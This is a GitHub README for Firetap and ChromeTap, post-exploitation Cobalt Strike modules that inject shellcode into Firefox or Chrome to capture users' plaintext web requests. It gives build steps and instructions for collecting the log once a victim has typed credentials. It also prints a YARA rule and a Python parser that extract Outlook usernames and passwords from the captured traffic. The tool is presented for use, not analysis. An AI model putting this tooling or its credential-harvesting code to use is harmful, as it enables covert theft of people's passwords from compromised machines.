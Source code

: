 # Firetap

This is a Firefox port of bats3c's ChromeTap project. All credit to the original project goes to bats3c, he's an awesome researcher and it was a great project to learn injection with beacon object files. 

This does the same thing as the ChromeTap project but for Firefox. Running `firetap` begins monitoring firefox and outputs the results to C:\Windows\temp\mozillacrash.log







# ChromeTap

Place a wiretap on chrome and steal secrets.

### Overview

ChromeTap is a beacon object file that will inject shellcode into chrome's network service that will place hooks allowing for plain text requests to be stolen before they are sent along the wire.  It solely uses direct syscalls to do this and is careful of its memory permissions. 

### Install

``` bash
$ git clone https://github.com/bats3c/ChromeTools
$ cd chrometools/chrometap
$ pip3 install -r huntforsecrets/requirements.txt && make
```

### Usage

- Load the CNA into cobalt strike

![image-20210106122513885](imgs/image-20210106122513885.png)

- Run the command `chrometap`. This will overwrite the current log file so make sure its backed up if running the command multiple times.

  ![image-20210106122905830](imgs/image-20210106122905830.png)

- Once you have left it running for a while and think the user might have entered credentials into a website, download the log file which is stored in `C:\windows\temp\chromecrash.log` 

  ![image-20210106123621620](imgs/image-20210106123621620.png)

  The log file is going to be quite big, but that's just due to the technique used to steal the data. The good news is that it will compress really well so is worth compressing on disk before downloading.

  ![image-20210106124205776](imgs/image-20210106124205776.png)

- With the log file now on your local machine you can use the `./hunt.py` command to find secrets inside it

  ![image-20210106124833240](imgs/image-20210106124833240.png)

### Writing Plugins and Rules

`hunt.py` is only able to extract secrets from requests that have supported YARA rules and plugins. These are super easy to write. Here's an example of writing a them to extract data from outlook logins.

Looking at the HTTP login request its possible to pick out strings that are specific to the request and can be used to identify it.

![image-20210106131623124](imgs/image-20210106131623124.png)

Allowing a YARA rule, like the one below, to find it.

YARA rules should be stored in the `rules/` directory and both file name and rule name can be anything you like. 

```
rule outlook_creds {
    meta:
        author = "@_batsec_"
        plugin = "outlook_parse"
    strings: 
        $str1 = "login.live.com" 
        $str2 = "login=" 
        $str3 = "hisScaleUnit="
        $str4 = "passwd="
    condition: 
        all of them 
}
```

When `hunt.py` finds a match, it uses the value of the `plugin` variable in the rule as the name of the plugin to load and parse the request.

A plugin is just a function in the `plugins.py` file. 

It will be given the raw request as a bytes object and should return a dictionary containing the name and secret of everything it finds, e.g. `{'site': 'login.live.com', 'username': 'asdf%40asdf.com', 'password': 'ThisIsMyVerySecurePassword123%21'}`.

The plugin to parse the outlook request is shown below.

```python
def outlook_parse(request):

    creds = {}

    creds['site'] = 'login.live.com'

    login = re.search(rb'login=(.*)&', request).group(1).decode()
    login = login[:login.index('&')]
    creds['username'] = login

    passwd = re.search(rb'passwd=(.*)&', request).group(1).decode()
    passwd = passwd[:passwd.index('&')]
    creds['password'] = passwd
    
    return creds
```

Feel free to DM me if you find any bugs or have any questions.
